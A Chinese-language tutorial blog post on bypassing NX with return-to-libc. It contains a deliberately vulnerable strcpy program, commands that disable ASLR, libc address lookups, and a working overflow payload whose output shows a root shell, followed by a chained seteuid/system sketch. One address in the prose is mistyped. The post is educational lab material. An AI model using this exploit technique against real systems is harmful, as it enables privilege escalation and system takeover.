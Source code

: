 ```yaml
---
layout: post
title: 通过return-to-libc绕过NX
excerpt: "sploitfun系列教程之2.1 return-to-libc"
categories: [sploitfun系列教程]
comments: true
---
```



#### 什么是NX防护
NX:No Execute,这个防护开启就意味着变量、栈、堆中数据没有执行权限而且代码空间没有写入的权限

漏洞代码
```c
 //vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256]; /* [1] */ 
 strcpy(buf,argv[1]); /* [2] */
 printf("%s\n",buf); /* [3] */
 fflush(stdout);  /* [4] */
 return 0;
}
```
编译
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -o vuln vuln.c -m32
chmod 777 vuln
```
运行`readelf -l vuln`查看栈空间的权限
```
...
...
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00660 0x00660 R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x00118 0x00120 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x000584 0x08048584 0x08048584 0x0002c 0x0002c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1
...
...
```
此时`GNU_STACK`已经没有了E标志位(执行权限)

#### exp编写过程
通过`more /proc/19669/maps`查看libc的基地址
```
08048000-08049000 r-xp 00000000 fd:00 69981924                           /root/sploitfun/vuln
08049000-0804a000 r--p 00000000 fd:00 69981924                           /root/sploitfun/vuln
0804a000-0804b000 rw-p 00001000 fd:00 69981924                           /root/sploitfun/vuln
f7e01000-f7e02000 rw-p 00000000 00:00 0 
f7e02000-f7fc6000 r-xp 00000000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc6000-f7fc7000 ---p 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc7000-f7fc9000 r--p 001c4000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fc9000-f7fca000 rw-p 001c6000 fd:00 34048627                           /usr/lib/libc-2.17.so
f7fca000-f7fcd000 rw-p 00000000 00:00 0 
f7fd8000-f7fd9000 rw-p 00000000 00:00 0 
f7fd9000-f7fda000 r-xp 00000000 00:00 0                                  [vdso]
f7fda000-f7ffc000 r-xp 00000000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffc000-f7ffd000 r--p 00021000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffd000-f7ffe000 rw-p 00022000 fd:00 34036408                           /usr/lib/ld-2.17.so
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
```
得到libc基地址位`f7e02000`

通过`readelf -s /usr/lib/libc-2.17.so | grep system`查看system的offset
```shell
   246: 00132650    73 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ef70    98 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1454: 0003ef70    98 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
   513: 00000000     0 FILE    LOCAL  DEFAULT  ABS system.c
   514: 0003ea40  1089 FUNC    LOCAL  DEFAULT   13 do_system
  5193: 00132650    73 FUNC    LOCAL  DEFAULT   13 __GI_svcerr_systemerr
  7022: 0003ef70    98 FUNC    WEAK   DEFAULT   13 system
  7618: 00132650    73 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr
  7683: 0003ef70    98 FUNC    GLOBAL DEFAULT   13 __libc_system
```
通过`objdump -s /usr/lib/libc-2.17.so |less`查找sh字符并且以00结尾
```
 0e5b8 5f6d6f64 64693300 696e6574 365f6f70  _moddi3.inet6_op
 0e5c8 745f6669 6e697368 005f494f 5f646566  t_finish._IO_def
 0e5d8 61756c74 5f787370 75746e00 5f5f7763  ault_xsputn.__wc
```
得到sh.位置offset为0e5ce,固sh.位置的绝对位置为`0xf7Ee05ce`

我们需要在栈空间进行如下构建
```
 ______
| AAAA |
|------|
| .... |
|------|
| AAAA |
|------|
|SYSTEM|
|------|
| AAAA |
|------|
|  SH  |
|______|
```


最后的结果
```bash
./vuln `python -c 'print "A"*268 + "\x70\x0f\xe4\xf7"+"\xff\xff\xff\xff"+"\xce\x05\xe1\xf7"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp澉????吾
sh-4.2# exit
exit
```
#### 一点疑问
若程序采用最小权限原则，用户获取输入之前删除root权限。因此，即使用户输入是恶意的，攻击者也不会得到root shell。代码如下
```c
//vuln_priv.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 seteuid(getuid()); /* Temporarily drop privileges */ 
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```
那么如何在程序使用了最小权限原则的限制下，获取root权限呢？如果我们的栈空间这样构造，那么pwn之后就可以获取root权限

- seteuid(0)
- system(“sh”)
- exit()

这样我们就可以获得root权限，这种技术叫做chaining of return-to-libc
